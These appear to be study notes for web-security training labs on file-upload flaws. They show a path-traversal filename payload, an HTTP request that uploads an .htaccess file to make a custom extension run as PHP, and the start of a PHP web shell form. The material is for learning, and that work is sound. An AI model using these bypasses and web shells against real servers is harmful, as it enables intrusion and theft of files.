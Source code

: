 ### Lab: Web shell upload via path traversal

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 

```
Content-Disposition: form-data; name="avatar"; filename="..%2fs.php"
```

## Insufficient blacklisting of dangerous file types

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like `.php`. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as `.php5`, `.shtml`, and so on.
### Overriding the server configuration

As we discussed in the previous section, servers typically won't execute files unless they have been configured to do so. For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2`.conf file:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```
Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a directory-specific configuration from a file called .htaccess if one is present.
### Lab: Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```
POST /my-account/avatar HTTP/2
Host: 0a6200830432751b818d1bdb00f600b3.web-security-academy.net
Cookie: session=PoQwHrxBbTLZ2LOdZr1QktoDExbLf0bI
Content-Type: multipart/form-data; 
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
```
This maps an arbitrary extension `.l33t` to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already. 
```
Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
Content-Type: text/plain

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
```